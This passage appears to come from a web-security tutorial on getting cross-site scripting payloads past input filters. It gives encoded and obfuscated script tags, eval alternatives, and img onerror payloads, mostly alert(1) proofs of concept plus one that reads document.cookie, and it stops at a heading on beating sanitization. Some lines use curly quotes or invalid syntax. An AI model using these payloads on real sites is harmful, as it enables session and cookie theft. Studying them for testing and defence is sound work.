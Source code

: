 Within JavaScript strings, you can use Unicode escapes, hexadecimal escapes,
and octal escapes:

```
<script>eval('a\u006cert(1)');</script>
<script>eval('a\x6cert(1)');</script>
<script>eval('a\154ert(1)');</script>
```

use superfluous escape characters with in a string might be ignore:
```
<script>eval('a\l\ert\(1\)');</script>
```


<b>you can construct dynamically generated strings</b>

use techniques like this to construct strings:

```
<script>eval(‘al’+’ert(1)’);</script>
<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41));</script>
<script>eval(atob(‘amF2YXNjcmlwdDphbGVydCgxKQ’));</script>
```


<b>Alternatives to eval</b>

If directs call to eval fails, you have other ways
to execute commands in string form:

```
<script>’alert(1)’.replace(/.+/,eval)</script>
<script>function::[‘alert’](1)</script>
```

<b>Alternatives to dots</b>

if dots are not allowed to be accessed u could do this:

```
<script>alert(document['cookie'])</script>
<script>with(document)alert(cookie)</script>
```

<u><b>Combining Multiple techniques</b></u>

The techniques described can also be used in 
combination to apply several layers of obfuscation.


```
<img onerror=eval(‘al&#x5c;u0065rt(1)’) src=a>

<img onerror=&#x65;&#x76;&#x61;&#x6c;&#x28;&#x27;al&#x5c;u0065rt&#x28;1&
#x29;&#x27;&#x29;
src=a>
```


<hr>
<hr>
<h3><b>2. Beating sanitization</b></h3>
